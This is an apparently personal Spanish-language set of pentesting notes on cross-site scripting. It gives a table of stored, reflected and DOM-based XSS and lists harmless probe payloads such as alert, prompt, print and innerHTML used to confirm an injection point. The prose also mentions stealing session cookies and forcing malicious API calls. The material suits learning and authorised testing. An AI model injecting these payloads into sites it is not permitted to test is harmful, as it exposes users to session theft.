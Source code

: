 Interesante: [payloadallthethings-xss](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-htmlapplications)
Algunos de los ejemplos más clásicos de estos ataques son conseguir que el usuario objetivo envíe sin saberlo su cookie de sesión al servidor web del atacante. Otro ejemplo básico es que el usuario objetivo realice llamadas a la API que conduzcan a una acción maliciosa como crear un superusuario o cambiar alguna contraseña. Poder ejecutar js en el navegador, combinado con alguna vulnerabilidad binaria en el navegador puede conducir a ejecutar RCE en la máquina objetivo. 
## Tipos de XSS

| **Tipo de XSS**                      | **Descripción**                                                                                                                                                                      |
| ------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **`Stored XSS (Persistent)`**        | El código malicioso **se almacena en la base de datos o archivos** del servidor y se ejecuta en los navegadores de múltiples usuarios (Ejemplo: en comentarios, perfiles, foros).    |
| **`Reflected XSS (Non-Persistent)`** | El código malicioso **se envía en una URL o formulario**, se **refleja en la respuesta del servidor**, y se ejecuta en el navegador de la víctima cuando accede al enlace malicioso. |
| **`DOM-Based XSS`**                  | Ocurre completamente en el **navegador** sin intervención del servidor, cuando JavaScript manipula el **DOM** de forma insegura y ejecuta código malicioso.                          |
## Algunas  alternativas para inyección de código
### Alternativas a `alert()`

En algunos navegadores modernos se puede bloquear `alert()` en algunas ubicaciones específicas. Aún así existen alternativas para comprobar la inyección de código
- **Alert básico**
	```html
	<script>alert("¿XSS detectado");</script>
	```
-  **Mostrar en consola**
	```html
	<script>console.log("XSS detectado!");</script>
	```
-  **Mostrar cuadro de confirmación**
	```html
	<script>confirm("¿XSS detectado?");</script>
	```
- **Mostrar caja de entrada emergente**
	```html
	<script>prompt("XSS encontrado!");</script>
	```
- **Modificar la página con un mensaje visible**
	```html
	<script>document.write("XSS funciona!");</script>
	```
- **Inyectar contenido en el DOM**
	```html
	<script>document.body.innerHTML = "<h1>XSS aquí!</h1>";</script>
	```
- **Forzar un diálogo de impresión (difícil de bloquear)**
	```html
	<script>print();</script>
	```
- **Forzar que el HTML posterior sea texto plano (`<plaintext>`)**
	```html
	<plaintext>
	# Debería renderizar la página de forma
	````
